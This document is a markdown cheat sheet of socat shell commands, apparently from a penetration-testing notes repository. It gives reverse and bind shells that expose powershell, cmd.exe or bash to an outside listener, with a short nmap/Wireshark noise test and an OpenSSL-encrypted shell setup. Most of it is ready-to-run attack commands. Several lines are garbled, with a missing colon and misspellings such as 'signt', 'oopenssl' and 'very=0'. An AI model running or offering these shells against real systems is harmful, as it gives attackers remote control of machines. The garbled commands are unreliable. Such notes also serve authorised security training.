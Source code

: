 # Socat Shells

## Windows shell
`pipes` - forces pwsh or cmd to use unix style standard input / output.

Reverse Shell
```sh
socat TCP:10.10.10.10:4200 EXEC:powershell.exe,pipes
```

## Linux
Reverse Shell
```sh
socat tcp-l:4200 -
socat tcp-l:4200 FILE:`tty`,raw,echo=0
```
Listener
| Arg | Description |
| --- | ----------- |
| `pty` | pseudoterminal on target |
| `stderr` | make sure any error messages get shown in the shell |
| `signt` | creates process in new session |
| `sane` | normalize |
```sh
socat TCP:10.10.10.10:4200 EXEC"bash -li",pty,stderr,signt,setsid,sane
```

Bind Shell
```sh
socat TCP-L:4200 EXEC:"bash -li"

```

Listener
```sh
socat TCP:10.10.10.10:4200 -
```
## Stealth Test
Perform the following tests to see how noisy the command is:

### 1. Choose an interface to monitor
`ip a` - View networking information

`eth0` - Selected interface

### 2. Setup a Filter in Wireshark & Capture
Set `tcp.port == 23` in the filter and press capture to monitor traffic.

### 3. Run Scan
`nmap -sV -sC 192.168.1.1 23` 

### 4. View results in Wireshark
By default "Nmap" is printed as the User-Agent making it easily detectiable by defenders. 

### 5. Socat Reverse Shell
A reverse shell gives you access back to the target computer.

```sh
socat -d TCP4-LISTEN:23, fork STDOUT
#or
socat.exe TCP4:192.168.1.22:23 EXEC:'cmd.exe', pipes

```
## Encrypted Shells
1. Generate a certificate
```sh
oopenssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
Create `.pem` file:
```sh
cat shell.key shell.crt > shell.pem
```

Listener:
`very=0` - don't validate if cert has been signed
```sh
socat OPENSSL-LISTEN:4200,cert=shell.pem,verify=0 -
```

Bind Shell Target
```sh
socat OPENSSL-LISTEN:4200,cert=shell.pem,verify=0, EXEC:cmd.exe,pipes
```
Bind Shell Attacker
```sh
socat OPENSSL:<target ip>:<target-port>,verify=0 -
```


